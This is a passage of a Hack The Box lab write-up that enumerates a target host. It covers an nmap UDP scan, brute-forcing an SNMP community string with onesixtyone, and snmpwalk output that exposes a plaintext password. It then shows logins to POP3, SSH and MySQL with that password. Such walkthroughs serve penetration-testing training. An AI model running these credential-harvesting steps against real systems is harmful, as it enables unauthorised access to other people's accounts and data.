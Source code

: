     Based on the output, we can see it have ssh, imap, pop3 service running. I tried to use openssl but nothing useful. So i tried to enumerate again on UDP.

    ```bash
    sudo nmap -sV --top-port 100 -sU 10.129.7.30 -v 
    ```

    Here the result.

    ```bash
    PORT      STATE         SERVICE VERSION
    68/udp    open|filtered dhcpc
    161/udp   open          snmp    net-snmp; net-snmp SNMPv3 server
    49186/udp open|filtered unknown
    ```
    We can see it have snmp service. Then we tried to get the community string using onesixtyone.

    ```bash
    onesixtyone -c /home/mrwhok/tools/SecLists/Discovery/SNMP/snmp.txt 10.129.7.30
    ```

    Here the result.
    ```bash
    Scanning 1 hosts, 3219 communities
    10.129.7.30 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
    ```
    We found that the community string is backup. Then we tried to use snmpwalk to enumerate again.

    ```bash
    snmpwalk -v2c -c backup 10.129.7.30
    ```

    In there we can find username and password.
    ```bash
    STRING: "tom NMds732Js2761"
    ```
    With that credential, we tried to login in the telnet with port 110. After login, we can get ssh key by enter `RETR 1`. By using it, we can do ssh. In the `/etc/passwd`, we can see this `mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false`. Then we use tom credential, doing this.

    ```bash
    mysql -u tom -p
    ```

    In there, we can get password for HTB user.